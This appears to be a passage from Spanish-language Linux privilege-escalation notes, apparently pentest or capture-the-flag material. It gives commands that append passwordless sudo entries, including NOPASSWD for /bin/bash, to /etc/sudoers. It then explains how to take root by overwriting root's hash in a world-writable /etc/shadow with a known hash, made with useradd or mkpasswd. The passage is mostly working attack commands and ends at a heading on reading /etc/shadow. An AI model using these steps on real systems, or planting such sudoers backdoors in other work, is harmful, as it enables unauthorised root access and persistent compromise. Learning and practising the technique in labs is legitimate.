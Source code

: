 ```bash
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers

echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers

```

### abuso de permisos de escritura en /etc/shadow

El archivo ` /etc/shadow` contiene hashes de contraseña de usuario y, por lo general, solo el usuario root puede leerlo.

Tenga en cuenta que el archivo `/etc/shadow` en la máquina virtual se puede escribir en todo el mundo:

creamos un usuario:

```bash
useradd pepito

passwd pepito

12345
```

abrimos el /etc/shadow y en el hash del usuario root colocamos el hash del usuario pepito, con esto al hacer sudo su y colocar la clave de pepito (12345) elevaremos privilegios.

vemos informacion:

```bash
whoami

id
```

```bash
lbs_release
```

```bash
sudo -l
```

**METODO ALTERNATIVO**

Genere un nuevo hash de contraseña con una contraseña de su elección:

```bash
mkpasswd -m sha-512 newpasswordhere
```

el resultado lo reemplazamos en el hash del usuario root.

### Abuso de permisos de lectura del /etc/shadow

